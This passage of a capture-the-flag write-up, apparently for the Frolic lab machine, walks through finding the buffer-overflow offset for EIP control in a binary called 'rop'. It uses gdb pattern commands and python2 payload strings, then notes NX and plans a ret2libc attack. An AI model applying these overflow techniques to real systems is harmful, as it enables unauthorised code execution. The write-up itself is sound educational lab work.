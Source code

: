 As I already know that the program crashes when entering a string that exceeds the buffer and overwrites important registers for the execution of the program, the next step is to know **how many characters** I must enter to get the **EIP** control, this means to calculate the **offset**. With `gdb` this can be done quickly and get this value, for some reason on my machine I get a value that is not the indicated, I do not know if it is because the **Randomization of Virtual Address Space** is enabled and the victim machine is not.

```bash
gdb ./rop
  /> help pattern
  /> help pattern create
  /> pattern create 100
  /> r "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"
  /> pattern offset AAHA
  /> pattern offset 0x41484141
  /> pattern offset $eip
# --> 62
  /> r $(python2 -c 'print "A"*61 + "B"*4')
# :( ??
```

<br/>
<img src="{{ site.img_path }}/frolic_writeup/Frolic_74.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_75.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_76.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_77.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After researching for a while, I can't find much information, so thanks to [0xdf's writeup](https://0xdf.gitlab.io/2019/03/23/htb-frolic.html){:target="_blank"} I find the indicated value. Now I try again, I generate a string with **52 A's** and then **4 B's**, and I can see that the **EIP** has stored what I was looking for.

```bash
gdb ./rop
  /> r $(python2 -c 'print "A"*52 + "B"*4')
#  --> $eip   : 0x42424242 ("BBBB"?)              :)
```

<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_78.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now I check the security protections of the binary, and I see that it has only **NX** enabled, which allows me to perform a **ret2libc** attack. There is a resource on the internet that helped me a lot to understand the concept: [RET2LIBC ATTACK IN LINUX](https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3){:target="_blank"}.
